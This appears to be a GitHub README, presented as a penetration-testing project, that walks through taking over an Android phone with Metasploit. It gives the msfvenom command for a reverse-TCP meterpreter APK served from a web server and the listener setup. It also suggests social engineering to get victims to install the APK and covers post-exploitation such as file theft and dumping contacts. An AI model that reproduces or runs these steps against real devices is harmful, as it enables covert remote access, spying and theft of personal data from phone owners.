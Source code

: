 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output


2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.

![image](https://user-images.githubusercontent.com/81562207/229279200-5c74b081-2753-429c-9b2a-33892ecd2960.png)
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.

![image](https://user-images.githubusercontent.com/81562207/229279271-af872994-d2c1-42e3-9a75-51ab02caf6d2.png)

Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

![image](https://user-images.githubusercontent.com/81562207/229279465-8336c901-4c06-47ff-a8a7-7105a96e3a52.png)


3.	Post Exploitation
Type “background” and then “sessions” to list down all the sessions from where you can see all the IPs connected to the machine. 

![image](https://user-images.githubusercontent.com/81562207/229279529-ca376327-0434-43b2-b1a4-19c526f87584.png)
 
You can interact with any session by typing sessions -i [session ID]. After entering the session, type “help” to list down all the commands we can put forward in this session. You can see some file system commands that are helpful when you’re trying to go after some sensitive information or data. By using these, you can easily download or upload any file or information.

![image](https://user-images.githubusercontent.com/81562207/229279569-43fff339-2ee2-4fd5-85dd-f54731ad92d6.png)

![image](https://user-images.githubusercontent.com/81562207/229279600-a1140b0c-3768-4558-83cd-5ab04dac5b73.png)



4.	Extracting Contacts from an Android Device
Now let extract some contacts from the target device by typing “dump” and double tab.
 
 
It will extract all the contacts from the Android device and will save it in our local directory. To see this file type “ls” and “cat [file_name]”.
